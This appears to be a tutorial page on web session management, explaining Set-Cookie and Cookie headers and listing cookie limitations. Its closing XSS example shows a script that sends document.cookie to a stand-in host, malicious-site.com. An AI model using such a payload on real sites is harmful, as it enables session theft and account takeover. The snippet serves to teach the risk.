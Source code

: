 
## Session Management  
![Session Flow](./assets/session.png)  

### **Server-Side Cookies**  

When a user visits a website and logs in, the server needs a way to remember that user across different pages. This is where cookies come in.  

1. The user logs in by sending credentials (e.g., username & password).  
2. The server verifies the credentials and creates a session for the user.  
3. The server sends a `Set-Cookie` header in the HTTP response, instructing the browser to store a cookie.  
4. The cookie (`session_id=abc123`) is now stored in the user's browser, helping the server recognize the user in future requests.  

   **HTTP Response:**  
   ```http
   HTTP/1.1 200 OK  
   Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict  
   ```  

### **Client-Side Cookie Retrieval**  

Once stored, the cookie is automatically included in future requests to the same website, allowing the server to identify the user without requiring them to log in again.  

**Browser Request with Cookie:**  
```http
GET /profile HTTP/1.1  
Host: www.example.com  
Cookie: session_id=abc123  
```  

- The browser automatically adds the cookie to every request sent to `www.example.com`.  
- The server reads the cookie and verifies that `session_id=abc123` belongs to a valid logged-in user.  
- The user is shown their personalized profile page without needing to log in again.  

### **Limitations of Cookies**  

- **Storage Limit:** Maximum of **4KB**, restricting data storage.  
- **Network Load:** Sent with every request, increasing bandwidth usage.  
- **Security Risks:**  
  - **Session Hijacking:** Stolen session cookies can be used to impersonate users.  
  - **XSS Attacks:** JavaScript can steal cookies if not properly secured.  
    ![XSS Attack](./assets/XSS.png)  
    ```js
    <script>
    document.location = "http://malicious-site.com/steal?cookie=" + document.cookie;
    </script>
    ```